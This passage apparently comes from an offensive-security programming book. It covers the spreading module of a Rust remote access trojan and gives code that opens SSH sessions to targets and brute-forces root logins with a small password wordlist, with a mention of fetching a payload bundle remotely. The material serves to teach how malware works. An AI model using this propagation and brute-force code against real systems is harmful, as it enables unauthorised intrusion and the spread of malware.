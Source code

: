 Note that in a real-world scenario, we may download `bundle.zip` from a remote server instead of simply having it available on the filesystem.


## Spreading

### SSH connection



**[ch_13/rat/agent/src/spread.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/spread.rs)**
```rust
    let tcp = TcpStream::connect(host_port)?;
    let mut ssh = Session::new()?;
    ssh.set_tcp_stream(tcp);
    ssh.handshake()?;
```


### Bruteforce


Then comes the SSH bruteforce. For that, we need a wordlist.

While a smarter way to bruteforce a service is to use predefined (`(username, password)` pairs known to be used by poorly-secured devices, here we will try the most used passwords for each username.

**[ch_13/rat/agent/src/wordlist.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/wordlist.rs)**
```rust
pub static USERNAMES: &'static [&str] = &["root"];

pub static PASSWORDS: &'static [&str] = &["password", "admin", "root"];
```


```rust
fn bruteforce(ssh: &Session) -> Result<Option<(String, String)>, crate::Error> {
    for username in wordlist::USERNAMES {
        for password in wordlist::PASSWORDS {
            let _ = ssh.userauth_password(username, password);
            if ssh.authenticated() {
                return Ok(Some((username.to_string(), password.to_string())));
            }
        }
    }

    return Ok(None);
}
```


### Detecting the platform of the target

In Rust, the simplest way to represent the remote platform is by using an `enum`.
